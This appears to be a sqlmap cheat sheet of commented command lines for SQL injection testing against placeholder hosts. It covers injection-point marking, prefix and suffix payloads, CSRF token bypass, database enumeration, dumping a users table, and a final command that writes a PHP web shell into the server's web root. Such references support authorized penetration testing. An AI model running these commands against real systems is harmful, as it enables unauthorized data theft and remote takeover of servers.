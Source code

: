 # Run SQLMap without asking for user input
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

# SQLMap with POST request specifying an unjection point with asterisk
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'

# Passing an HTTP request file to SQLMap
sqlmap -r req.txt

# Specifying a PUT request
sqlmap -u www.target.com --data='id=1' --method PUT

# Specifying a prefix or suffix
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"

# Basic DB enumeration
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

# Table enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

# Table row enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

# Conditional enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

# CSRF token bypass
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

# List all tamper scripts
sqlmap --list-tampers

# Writing a file
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
